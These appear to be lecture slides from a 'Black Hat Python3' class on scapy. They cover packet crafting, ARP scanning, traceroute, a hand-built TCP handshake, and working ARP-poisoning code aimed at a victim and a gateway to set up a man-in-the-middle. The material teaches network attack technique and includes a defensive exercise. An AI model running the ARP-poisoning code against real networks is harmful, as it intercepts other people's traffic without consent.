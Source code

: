 ## Welcome to class 5!

### Black Hat Python3 

### Raleigh ISSA

---

## Github repo

https://github.com/tiarno/bhp3_class

---

## Summary from last class

- UDP scanning
- Git commands on local
- Git commands for remote/upstream
- python import techniques
- code reuse (`getwords`)
- context managers

---

## scapy

- python library
- interative tool using Python REPL (shell)
- create, decode, send, receive packets

---

## Interactive scapy shell

```python
>>> IP()
<IP |>
>>> target="www.google.com/30"
>>> ip=IP(dst=target)
>>> ip
<IP  dst=<Net www.google.com/30> |>
>>> ips = [p for p in ip]
>>> ips
[<IP  dst=172.217.4.36 |>, <IP  dst=172.217.4.37 |>, 
 <IP  dst=172.217.4.38 |>, <IP  dst=172.217.4.39 |>]

>>> a = ips[0]
>>> a.dst
172.217.4.36
>>> a.ttl
64
```

---

## Another view

```
>>> str(a)
"b'E\\x00\\x00\\x14\\x00\\x01\\x00\\x00@\\x00\\x07\\xff\\xc0\\xa8\\x01E\\xac\\xd9\\x04$'"
>>> new_ip = IP(str(a))
>>> new_ip
<IP  version=6 ihl=2 tos=0x27 len=17756 id=30768 flags=MF frag=4188 ttl=120 proto=dsr chksum=0x305c src=120.49.52.92 dst=120.48.48.92 options=[<IPOption  copy_flag=0 optclass=3 option=upstream_multicast_packet length=48 value='1\\x00\\x00@\\x00\\x07\\xff\\xc0\\xa8\\x01E\\x' |>] |<Raw  load="ac\\xd9\\x04$'" |>>
>>> new_ip.hide_defaults()
>>> new_ip
```

---

## `lsc()`, `ls()`

- IP
- TCP
- ICMP

---

## Common Commands

- rdppcap
- wrpcap
- send
- sr
- sniff
- filter (BPF)

---

## ARP

```python
ether = Ether(dst="ff:ff:ff:ff:ff:ff")
arp = ARP(pdst='192.168.1.69/24')
ans, unans = srp(ether/arp, iface='en0', timeout=2) #Layer2
for snd, rcv in ans:
    print(rcv.sprintf(r"%ARP.psrc% %Ether.src%").split())
```

---

## Scapy Graphics

```python
res, unans = traceroute(['reachtim.com'], dport=[443], maxttl=20, retry=-2)

res.graph()
```

---

```python
hosts = [
    'www.microsoft.com', 'www.cisco.com', 
    'www.yahoo.com', 'www.wanadoo.fr', 
    'www.pacsec.com']

res, unans = traceroute(hosts, dport=[80,443], maxttl=20, retry=-2)
```

---

```python
a = Ether()/IP(dst="www.slashdot.org")/TCP()/"GET /index.html HTTP/1.0 \n\n"

hexdump(a)

a[0].pdfdump(layer_shift=1)
```
http://www.asciitable.com

---

## BPF

http://biot.com/capstats/bpf.html

## Three-way Handshake

- on attacker:
    - `iptables -t filter -I OUTPUT -p tcp --sport 10000 --tcp-flags RST RST -j DROP`
    - mac: `sysctl -w net.inet.ip.forwarding=1`
    - linux: `echo 1 > /proc/sys/net/ipv4/ip_forward`
- on target: `tcpdump -ni any port 8000 -S`

---

```python
me, sport = '192.168.1.69', 10000
them, dport = '192.168.1.100', 8000
#
ip = IP(src=me, dst=them)
syn = TCP(sport=sport, dport=dport, flags='S', seq=1000)
synack = sr1(ip/syn)
ack = TCP(sport=sport, dport=dport, flags='A', seq=synack.ack, ack=synack.seq+1)
send(ip/ack)
```

---

## ARP Poison

- poison ARP cache of two devices
- tell each device attacker MAC is the other's address
- man-in-the-middle: monitor communications

---

## ARP Poison code

```python
mymac = get_if_hwaddr('en0')
victim = '192.168.1.100'
gateway = '192.168.1.254'
packet = Ether()/ARP(op='who-has', hwsrc=mymac, psrc=victim, pdst=gateway)
sendp(packet)
packet = Ether()/ARP(op='who-has', hwsrc=mymac, psrc=gateway, pdst=victim)
sendp(packet)
```

---

## Python Named Tuples

- immutable
- reference values like object properties
- more readable code

```
Point = namedtuple('Point', 'x y')
pt = Point(1.0, 2.0)
pt.x
pt.y
```

---

## ARP Poison Program

`arper.py`

---

## Your Job

- Reading (links below)
- Create your ARP Poison program
- Recreate your network scanner using scapy
- Consider ways to protect against it

---

## Reading


1. https://scapy.net/demo/
2. https://thepacketgeek.com/series/building-network-tools-with-scapy/
3. https://www.cisco.com/c/en/us/products/collateral/switches/catalyst-6500-series-switches/white_paper_c11_603839.html
4. https://codingsec.net/2016/06/arp-spoofing-attack/
5. http://biot.com/capstats/bpf.html

 
---

## Feedback please!

- tim@reachtim.com
- discord: https://discord.gg/WR23qUj

